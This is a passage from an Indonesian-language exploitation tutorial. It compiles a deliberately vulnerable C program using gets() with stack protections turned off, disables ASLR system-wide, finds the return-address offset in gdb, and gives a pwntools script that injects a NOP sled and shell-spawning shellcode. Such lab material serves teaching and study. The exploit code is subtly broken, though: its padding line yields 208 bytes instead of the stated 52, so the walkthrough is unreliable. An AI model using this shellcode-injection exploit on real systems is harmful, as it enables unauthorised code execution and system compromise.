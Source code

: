 Syarat dari langkah ini adalah stack executable (NO NX)

[x] NO Canary ~ -fno-stack-protector
[x] NO PIE ~ -no-pie
[x] NO NX ~ -z execstack
[x] NO ASLR ~ echo 0 > /proc/sys/kernel/randomize_va_space

vuln_program.c

```c
#include<stdio.h>

void foo()
{
    char buffer[40];
    puts("give me your input :)\n");
    gets(buffer);
}

void main()
{
    foo();
}
```

kita kompile dengan cara seperti ini untuk supaya tidak ada perlindungan Canary,NX,PIE

```bash
gcc -g -m32 -fno-stack-protector -z execstack -no-pie -o vuln32 vuln_program.c
```

setting disable untuk perlindungan ASLR pada sistem operasi linux

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

jalankan program vuln32 dengan gdb kemudian lakukan checksec

```bash
$gdb -q vuln32
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

solusinya seperti gambar dibawah ini

![[stack-frame-untuk menyimpan shellcode.png]]

untuk mendapatkan shell code bisa diambil dari 

http://shell-storm.org/shellcode/files/shellcode-841.html

atau menggunakan msfvenom

mencari padding dengan cara seperti berikut

```bash
$gdb -q vuln32
Reading symbols from vuln32...done.
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ run
Starting program: /root/You_Tube/Stack_Buffer_Overflow/3/vuln32 
give me your input :)
  

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd618 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x41414641 ('AFAA')
ECX: 0xf7fb55c0 --> 0xfbad2288 
EDX: 0xf7fb689c --> 0x0 
ESI: 0xf7fb5000 --> 0x1d9d6c 
EDI: 0xf7fb5000 --> 0x1d9d6c 
EBP: 0x31414162 ('bAA1')
ESP: 0xffffd650 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x41474141 ('AAGA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41474141
[------------------------------------stack-------------------------------------]
0000| 0xffffd650 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffd654 ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffd658 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffd65c ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffd660 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffd664 ("AA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffd668 ("AJAAfAA5AAKAAgAA6AAL")
0028| 0xffffd66c ("fAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41474141 in ?? ()
gdb-peda$ pattern offset 0x41474141
1095188801 found at offset: 52
```

berikut ini exploit

```bash
# padding --> 52
from pwn import *

p = process('./vuln32')
print(p.recv())
padding = b'0x90'*52
ret = p32(0xffffd6f0)  
nop = b'\x90'*240

shellcode = b'\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'

p.sendline(padding+ret+nop+shellcode)
print(p.clean())
p.interactive()
```


